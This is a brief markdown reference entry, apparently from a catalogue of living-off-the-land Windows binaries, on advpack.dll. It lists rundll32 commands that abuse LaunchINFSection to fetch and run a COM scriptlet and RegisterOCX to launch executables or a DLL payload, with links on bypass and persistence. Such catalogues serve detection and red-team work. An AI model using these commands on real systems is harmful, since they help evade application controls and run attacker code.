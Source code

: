 ## Advpack.dll
* Functions: Execute
```

rundll32.exe advpack.dll,LaunchINFSection c:\\test.inf,DefaultInstall_SingleUser,1,
Remote fetch and execute a COM Scriptlet by calling an information file directive (Section name specified).

rundll32.exe advpack.dll,LaunchINFSection test.inf,,1,
Remote fetch and execute a COM Scriptlet by calling an information file directive (DefaultInstall section implied).

rundll32.exe Advpack.dll,RegisterOCX calc.exe
Launch executable by calling the RegisterOCX function.

rundll32 advpack.dll, RegisterOCX "cmd.exe /c calc.exe"
Launch executable by calling the RegisterOCX function.

rundll32.exe Advpack.dll,RegisterOCX test.dll
Launch a DLL payload by calling the RegisterOCX function.
```
   
* Resources:   
  * https://bohops.com/2018/02/26/leveraging-inf-sct-fetch-execute-techniques-for-bypass-evasion-persistence/
  * https://twitter.com/ItsReallyNick/status/967859147977850880
  * https://twitter.com/bohops/status/974497123101179904
  * https://twitter.com/moriarty_meng/status/977848311603380224
   
* Full path:   
  * c:\windows\system32\advpack.dll
  * c:\windows\sysWOW64\advpack.dll
   
* Notes: Thanks to Jimmy - @bohops (LaunchINFSection), fabrizio - @0rbz_ (RegisterOCX - DLL), Moriarty @moriarty_meng (RegisterOCX - Cmd)  
   
